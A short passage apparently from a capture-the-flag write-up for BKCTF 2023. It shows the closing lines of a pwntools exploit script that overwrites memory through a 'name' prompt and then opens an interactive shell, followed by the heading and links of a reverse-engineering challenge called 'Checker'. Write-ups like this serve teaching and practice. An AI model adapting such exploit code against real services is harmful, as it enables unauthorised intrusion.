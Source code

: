 ```python
payload += p32(NAME - 0x10)*0x10
slnaf(b'Your choice :', b'4')
slnaf(b'What is your name: ', payload)
p.interactive()

```

# RE
### Checker

Author: `PhucRio`

Source code [here](https://github.com/TaiPhung217/CTF_writeup/blob/main/2023/bkctf%202023/bkctf2023-checker.zip).

`https://hackmd.io/LShuh2sWTf6GQfcB_xn-xQ`